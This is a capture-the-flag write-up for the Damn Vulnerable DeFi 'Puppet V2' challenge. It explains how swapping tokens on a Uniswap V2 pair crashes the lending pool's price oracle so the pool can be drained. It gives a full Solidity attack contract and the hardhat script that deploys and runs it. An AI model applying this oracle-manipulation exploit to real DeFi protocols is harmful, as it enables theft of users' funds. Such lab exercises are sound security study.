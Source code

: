 # 09_PuppetV2

## Challenge

We get pretty much the same construct as in the first puppet challenge. We have an UniswapV2 Router & Factory as well as a lending pool, in which we can lend out tokens if we put in enough WETH. Our goal is to drain the pool.

## Solution

We can pretty much do the same as in Puppet here. We use our tokens to manipulate the price of the AMM. 

We can do this by first swapping all our tokens for WETH. This already crashes the token price by enough to be able to withdraw all the tokens from the pool. So we now just need to withdraw all the money from the pool and are done.

I implemented this using an attack contract as I didn't want to do a single line of hardhat code more than I needed to. My contract is a bit more versatile than needed, as I expected that we would need to do the whole process multiple times. 
I added the 2 functions maxLend() and neededCollateral() to make it easier to calculate. If you want to see the full code check out the sources, I have added a simplified version here.

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.6.0;

import "./PuppetV2Pool.sol";
import '@uniswap/v2-core/contracts/interfaces/IUniswapV2Factory.sol';
import '@uniswap/v2-core/contracts/interfaces/IUniswapV2Pair.sol';
import '@uniswap/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol';
import "hardhat/console.sol";

contract AttackV2Puppet{
    using SafeMath for uint256;

    PuppetV2Pool pool;
    IERC20 dvt;
    IERC20 weth;
    IUniswapV2Pair pair;
    IUniswapV2Router02 router;
    IUniswapV2Factory factory;

    constructor(address _pool, address _router, address _token, address _weth, address _pair, address _factory) payable public
    {
        dvt = IERC20(_token);
        weth = IERC20(_weth);
        pool = PuppetV2Pool(_pool);
        pair = IUniswapV2Pair(_pair);
        router = IUniswapV2Router02(_router);
        factory = IUniswapV2Factory(_factory);
    }

    function attack() external
    {
        //transfer all the tokens and weth from the owner to this contract
        dvt.transferFrom(msg.sender, address(this), dvt.balanceOf(msg.sender));
        weth.transferFrom(msg.sender, address(this), weth.balanceOf(msg.sender));

        //We do this until we have no more tokens in the pool

        //PHASE 1: Swapping at the AMM
        //approve the router to spend our tokens
        dvt.approve(address(router), dvt.balanceOf(address(this)));

        //generate the path
        address[] memory path = new address[](2);
        path[0] = address(dvt);
        path[1] = address(weth);

        //swap our tokens for eth
        router.swapExactTokensForTokens(dvt.balanceOf(address(this)), 1, path, address(this), block.timestamp + 42069);

        //PHASE 2: Lending out as much as we can
        //calculate how many tokens we can lend out
        uint256 max_lend = maxLend(weth.balanceOf(address(this)));

        //we need to exactly calculate how to get the rest out
        console.log("Final Lending");

        //calculate how much weth we need to send to get the rest of the tokens out
        uint256 final_value_sent = neededCollateral(dvt.balanceOf(address(pool)));

        //approve so it can use transferFrom()
        weth.approve(address(pool), final_value_sent);
        pool.borrow(dvt.balanceOf(address(pool)));
        
        //generate the new path
        path[0] = address(weth);
        path[1] = address(dvt);

        //swap our tokens for eth
        weth.approve(address(router), weth.balanceOf(address(this)));
        router.swapExactTokensForTokens(weth.balanceOf(address(this)), 1, path, address(this), block.timestamp + 42069);

        //transfer all our tokens to the player
        dvt.transfer(msg.sender, dvt.balanceOf(address(this)));
    }

    //Collateral calculation
    function neededCollateral(uint256 amount) private view returns (uint256) {
        //retrieve the reserves of the pair from the factory
        (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library.getReserves(address(factory), address(weth), address(dvt));

        //calculate quote
        uint256 oraclequote =  UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);

        return (oraclequote * 3) / (1 ether);
    }

    //Max lend we will get for our WETH
    function maxLend(uint256 amount) private view returns (uint256) {
        //TODO: Possibly some fuckery in here

        //retrieve the reserves of the pair from the factory
        (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library.getReserves(address(factory), address(weth), address(dvt));

        return UniswapV2Library.quote(amount.mul(10 ** 18), reservesWETH, reservesToken) / (3 ether);
    }
}
```

I then deploy and run this in the hardhat script, which passes all checks.

```js
//Get our WETH
let weth_to_send = 199n * 10n ** 17n;
await weth.connect(player).deposit({value: weth_to_send});

//Deploy the attack contract
let AttackPuppet = await (await ethers.getContractFactory('AttackV2Puppet', player)).deploy(lendingPool.address, uniswapRouter.address, token.address, weth.address, uniswapExchange.address, uniswapFactory.address);

//Appove the attack contract so it can use transferFrom() to get its WETH & tokens
await weth.connect(player).approve(AttackPuppet.address, weth_to_send);
await token.connect(player).approve(AttackPuppet.address, PLAYER_INITIAL_TOKEN_BALANCE);

// Swap tokens for ETH /reduce price oracle
await AttackPuppet.attack();
```
